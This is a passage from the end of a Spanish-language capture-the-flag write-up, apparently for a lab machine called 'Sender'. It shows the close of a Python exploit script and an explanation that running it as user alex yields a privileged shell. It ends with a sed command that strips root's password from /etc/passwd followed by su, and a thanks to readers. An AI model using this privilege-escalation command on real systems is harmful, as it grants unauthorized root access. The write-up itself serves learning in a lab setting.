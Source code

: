 ```python
    p.close()




if __name__ == '__main__':
    exploit()
```

ejecutamos el binario como alex, y al ejecutar el exploit recibiremos una bash con privilegios, solo que nos queda ejecutar lo siguiente para ser root al 100%:

```css
sed -i 's/root:x:/root::/g' /etc/passwd && su
```

### Root

![Root](images/sender/root.png)

Gracias por leer ;) (pd: srry si no se entendió algo, traté de explicar lo mejor que pude...)